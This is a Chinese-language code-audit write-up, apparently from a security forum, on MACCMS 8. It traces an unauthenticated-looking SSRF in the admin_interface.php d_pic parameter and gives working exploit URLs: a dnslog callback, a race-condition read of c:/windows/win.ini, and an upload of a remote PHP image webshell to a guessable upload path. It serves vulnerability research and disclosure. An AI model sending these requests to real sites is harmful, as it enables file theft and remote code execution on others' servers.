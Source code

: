 MACCMS
======

好久没代码审计了，随便找了个php的源码审了好几天

虽然漏洞不是很难利用，但是这个过程真是超级有趣

无回显ssrf
=======

### 漏洞判断

日常搜索curl\_exec()函数

发现在maccms8\\inc\\common\\function.php文件的824行发现利用了该函数

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5ab9bc949524ccfd388f1a7548f3e6e47c18621e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5ab9bc949524ccfd388f1a7548f3e6e47c18621e.png)

观察发现$ch参数由$url传入，在getPage()函数中没有任何操作对$url进行过滤

接着就反向查找哪里调用了getPage()函数

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e0a3f4b053194df7975927c95c0f9c8e1363176d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e0a3f4b053194df7975927c95c0f9c8e1363176d.png)

发现调用该函数还挺多，挨个查找发现inc\\common\\function.php的1746行或许可以利用

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0f12120926a972ba7e24feef7d2fda551382cd7f.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0f12120926a972ba7e24feef7d2fda551382cd7f.png)

此时传入的$url函数进行了几处截断拼接操作，也没啥过滤啥的

那就继续查找savepic()函数被谁调用了

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5d37770ea635e9f0404aebfa4b456e9154e87c94.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5d37770ea635e9f0404aebfa4b456e9154e87c94.png)

乍一看也挺多的，我们只好挨个查看了

在maccms8\\admin1212\\admin\_interface.php的第452行我们发现调用了该函数

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5fd14d3093bfdfab60bc865483c2d43eba908bfa.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5fd14d3093bfdfab60bc865483c2d43eba908bfa.png)

传入的参数是$d\_pic,慢慢往上追溯发现该参数在第66行可以通过be()函数传入

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7e3e5a5689bbe70f6b72e5881748b7de3e93b830.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7e3e5a5689bbe70f6b72e5881748b7de3e93b830.png)

be()函数干嘛用的就不展开将了，这是该源码自己定义的函数，all表示可以通过get或post方式接收某一参数，d\_pic就是参数值

到这，算是吧这一套传参过程是给追完了，只要我们get传入d\_pic就行呗？

### 利用过程构造

我们从开头顺着看运行过程，主要是判断需要哪些条件，可以让我们运行到漏洞处

走着走着发现在48,50行有个判断

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-01f3805b4028f91ed545bd9ff6539ec3c48e51d0.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-01f3805b4028f91ed545bd9ff6539ec3c48e51d0.png)

$ac=vod和$pass是某个值，往上看，发现这俩值都可以get或post方式传入

ac好说传入vod，pass是啥啊

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1fc5941dd47b05df876a04b547a5be2df14eacdd.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1fc5941dd47b05df876a04b547a5be2df14eacdd.png)

全局搜索pass，发现是config/config.php的一个变量

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d6834c45efc37da93c751558166c479f442825a1.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d6834c45efc37da93c751558166c479f442825a1.png)

此变量是可以在后台的站外入库配置处查看的

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-048d692f8be3f493678b06ed3f7daa791f2b6eb5.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-048d692f8be3f493678b06ed3f7daa791f2b6eb5.png)

然后发现84,85行进行了判断，不能是空，一猜就是和上面相同的方法get或post传入即可

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-62a8e196ccfc7224939c68d80bf5a3bfe1a78463.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-62a8e196ccfc7224939c68d80bf5a3bfe1a78463.png)

然后在446，447行发现两个判断

```php
strpos(','.$uprule,'j')
```

```php
$MAC['collect']['vod']['pic']==1
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-33320df4e3322a67cc6bdb0faf688e2b25a78373.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-33320df4e3322a67cc6bdb0faf688e2b25a78373.png)

这是啥啊，结合上面的pass也是类似判断，我猜测也是网站的配置config.php

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-eaeebe490082dbbf4a231815a3f387bfe49bd261.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-eaeebe490082dbbf4a231815a3f387bfe49bd261.png)

需要将pic改为1，所以去后台找相关操作发现采集过程中同步图片控制该参数

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fddcd30d76d9f8a5d082852edb3758aede882603.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fddcd30d76d9f8a5d082852edb3758aede882603.png)

我们设为开启即成为1，然后j是在二次更新规则处选择图片

### 开始利用

到这所以流程走完了，构造的url，尝试访问dnslog

```php
http://127.0.0.1/maccms8/admin1212/admin_interface.php?ac=vod&amp;pass=LMB9UVWA63&amp;d_name=1&amp;d_type=1&amp;d_pic=http://ckrooo.dnslog.cn
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-74dbf1c47f4777fd3f4994261c4b784213b4108a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-74dbf1c47f4777fd3f4994261c4b784213b4108a.png)

发现新增数据成功？这是执行了sql注入，这里是存在sql注入的（但我已经提交了），不是本文重点

再次访问一次，发现dnslog接收到访问了

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-143d6072748a17f9ef5934fb46c4efba108953aa.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-143d6072748a17f9ef5934fb46c4efba108953aa.png)

（这里我们也可以停下来思考一下这个流程，为啥访问两次才接收到dnslog数据）

到这虽然我们发现了ssrf漏洞，但是没回显啊

ssrf的各种伪协议、读源码、扫内网没法玩啊，食之无味弃之可惜

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1a40a3d1d92c77cf0f1cba6993d695d6ed8e378b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1a40a3d1d92c77cf0f1cba6993d695d6ed8e378b.png)

### 峰回路转

过了两天总觉得该漏洞太气人了，没回显的ssrf多气人，继续挖！

继续回去看代码，发现在inc\\common\\function.php的1749行有一个操作，写入内容到文件?峰回路转？

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d870a4f1058521f7e8b303845cfbc7b537186641.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d870a4f1058521f7e8b303845cfbc7b537186641.png)

往下继续看，发现后面进行了判断是不是图片内容

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-15272229e5c46e4190a7497358610f0abb1d6bd9.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-15272229e5c46e4190a7497358610f0abb1d6bd9.png)

不是图片就删除该文件，你说气不气人

那就先测试一下写入图片吧

```php
http://127.0.0.1/maccms8/admin1212/admin_interface.php?ac=vod&amp;pass=LMB9UVWA63&amp;d_name=1&amp;d_type=1&amp;d_pic=http:xxx.123.png
```

发现图片被写入到了/upload/vod/2021-08-18/123.png

？？？目录可猜测？文件名是原文件名?

思考半天，突然想到一个姿势，条件竞争！

因为该源码，我们是已经成功写入到目录下了，只是后面来了个判断给删了，但利用条件竞争我们是有机会在没删之前读取该文件的。

开始构造，使用burp跑

```php
http://127.0.0.1/maccms8/admin1212/admin_interface.php?ac=vod&amp;pass=LMB9UVWA63&amp;d_name=1&amp;d_type=1&amp;d_pic=file:///c:/windows/win.ini
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-139f84525ca4cbc078cb9423aa675a6a668dfb33.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-139f84525ca4cbc078cb9423aa675a6a668dfb33.png)

```php
http://127.0.0.1/maccms8/upload/vod/2021-08-18/win.ini
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3bcf157f9cb75df16d88cef3df6772aaea79434a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3bcf157f9cb75df16d88cef3df6772aaea79434a.png)

两个数据开跑

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b4266b6264ee06d9352d0b15e93c59b72dcf5617.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b4266b6264ee06d9352d0b15e93c59b72dcf5617.png)

成了！

文件上传getshell
============

其实这里还是有另一个洞，就是文件上传

首先构造图片马，必须是图片马，因为文件进行了图片判断

但是，这里可以是php后缀！很离谱

```php
http://127.0.0.1/maccms8/admin1212/admin_interface.php?ac=vod&amp;pass=LMB9UVWA63&amp;d_name=10&amp;d_type=2&amp;d_pic=http://xxx/1234.php
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b2f8fd0e2d6e93fde918ee67ab324751ded0c72f.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b2f8fd0e2d6e93fde918ee67ab324751ded0c72f.png)会将马上传到

```php
http://127.0.0.1/maccms8/upload/vod/2021-08-18/1234.php
```

成功解析

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ce3f6ed3086bbb356ba29ef51ca36a9194532e4c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ce3f6ed3086bbb356ba29ef51ca36a9194532e4c.png)

总结
==

真是峰回路转啊，多思考是多么的重要

其实这个ssrf还有几处利用，比如ac=art，也是需要去后台改相应配置